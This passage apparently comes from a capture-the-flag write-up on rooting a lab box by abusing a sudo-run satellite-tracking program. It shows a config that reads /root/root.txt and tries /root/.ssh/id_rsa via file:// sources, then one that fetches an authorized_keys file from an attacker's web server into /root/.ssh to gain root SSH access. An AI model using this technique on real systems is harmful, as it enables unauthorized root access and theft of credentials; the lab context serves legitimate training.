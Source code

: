 ```
                "tab",
                "pos",
                "vel"
        ]
}

```

When I run this, it gets `root.txt`, but no key:

```
jovian@jupiter:~$ sudo sattrack
Satellite Tracking System
Get:0 file:///root/root.txt
Get:1 file:///root/.ssh/id_rsa
Couldn't open file /root/.ssh/id_rsa
Satellites loaded
No sats

```

Still, `root.txt` is in the tleroot directory:

```
jovian@jupiter:~$ ls /tmp/tle/
'gp.php?GROUP=starlink&FORMAT=tle'   id_rsa   noaa.txt   root.txt   test   weather.txt
jovian@jupiter:~$ cat /tmp/tle/root.txt
239169f5************************

```

### File Write -> SSH

One way to get a shell as root would be to write an SSH key into `/root/.ssh/authorized_keys`. I’ll host my public key in a file named `authorized_keys` on my webserver, and add that to the config. I’ll also set the `tleroot` to `/root/.ssh` so that it writes there:

```
{
        "tleroot": "/root/.ssh/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://10.10.14.6/authorized_keys"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
```